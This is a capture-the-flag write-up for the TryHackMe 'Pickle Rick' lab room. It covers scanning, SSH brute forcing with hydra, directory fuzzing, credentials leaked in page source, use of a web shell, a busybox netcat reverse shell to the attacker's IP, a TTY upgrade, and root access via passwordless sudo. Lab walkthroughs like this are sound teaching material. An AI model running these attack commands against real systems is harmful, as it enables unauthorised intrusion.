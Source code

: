 # Pickle Rick
Pickle Rick is a Rick and Morty themed room on TryHackMe.com. This writeup will show exactly the thought processes I went through in obtaining all three flags.

---

# Init
Let's make things simple by adding the IP address to ```/etc/hosts``` as ```picklerick.thm```

---

# Recon 
Let's get an nmap scan started up
    > ```nmap -Pn -sS -sCV -p- -O -v picklerick.thm```

Looks like there's only ssh and an apache web server running on this machine. Let's see what we have
    > ```curl -v picklerick.thm```

We're getting some response data. Looks like Rick is locked out of his computer and wants us to log in somehow. In the source code we have this:
    
    <!--

        Note to self, remember username!

        Username: R1ckRul3s

    -->

This could probably be useful. Let's see if we can do an ssh brute force in the background while we try out some other things:
    
    hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt ssh://picklerick.thm -v -t 4

Uh-oh. 
   > ```R1ckRul3s@picklerick.thm: Permission denied (publickey).```

---

# Enumeration

Since port 22 is eliminated, let's see what we can find by fuzzing for directories
    
    ffuf -u picklerick.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt,.sh,.js,.css,.bak --recursion -v

While that runs, let's check out /robots.txt to see if we can find anything useful.
    > ```curl http://picklerick.thm/robots.txt```
We have a hit, but what's this mean?
    > ```Wubbalubbadubdub```

Well, well, well!
    
    login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 95ms]

Let's travel there in our browser and see what's going on...
Looks like some type of login page. Before we try brute forcing this, let's see what happens when we try ```R1ckRul3s:Wubbalubbadubdub```

Success!

---

# I'm in

Now that we have access to the inner parts of the site, let's see what we have around here.
The default redirect page seems to be a php web shell. I guess they have half the work done for us. Let's check out what we can do with this.

Try the ```ls``` command does in fact return a directory listing. So we can execute commands.

Let's try to get a better connection. ```which busybox``` returns ```/bin/busybox```, so let's get a reverse shell established:

1) From our terminal, let's run ```nc -lvnp 4444```
2) On the web shell, ```busybox nc <OUR IP> 4444 -e bash```
3) We should see this:
        
        listening on [any] 4444 ...
        connect to [10.6.32.97] from (UNKNOWN) [10.10.14.250] 34136
        
With a connection established, let's try to make this a better experience:

1) ```which python3``` returns ```/usr/bin/python3```, showing that we have acccess to python3
2) ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` should show the following: ```www-data@ip-10-10-14-250:/var/www/html$``` (note: you may have to hit return before this shows)
3) ```export TERM=xterm```
4) ```Ctrl+Z```, ```stty raw -echo;fg``` (note: you may have to hit return again to show the prompt)

Now we should have a reverse shell that shows more like ssh, with a bit more stable of a connection.

---

# Flags and privesc

## Flag 1
Being in the ```/var/www/http```, we should see a file called ```Sup3rS3cretPickl3Ingred.txt```. Let's run cat and see the contents
    
    cat Sup3rS3cretPickl3Ingred.txt

We've found the first flag!

## Flag 2 

Let's check out what other user info there is on the system.
    
    ls -la /home
Looks like we have two folders, ```rick``` and ```ubuntu```, with read permissions on both. Let's check them out with ```ls -laR /home/```

There's an interesting file in the ```rick``` directory called ```second ingredients```
   
    cat  /home/rick/second\ ingredients

We have flag 2!

## Flag 3
Let's see if we can escalate our priveleges to root to really dig around in the system
   
    sudo -l

    User www-data may run the following commands on ip-10-10-14-250:
    (ALL) NOPASSWD: ALL


Well let's just go for the gusto then.
  
    sudo su -

Success!

Now that we're root, let's see what's in root's home directory.
    
    ls -la

We have an interesting file here called 3rd.txt
    
    cat 3rd.txt

And that's the final flag!

---

# Conclusion

This was a super easy machine, but it was fun and refreshing. The security on this system was horrible, but it makes it great for beginners or people trying to have fun accessing a system. Overall, I really enjoyed this machine. It was interesting how you really can't perform any type of brute-force attacks on this machine whatsoever. Instead, you had to find another way in using some key tools, though few were necessary. The main takeaway from this machine is really just a reinforcement of key commands for directory fuzzing and establishing a remote shell. 
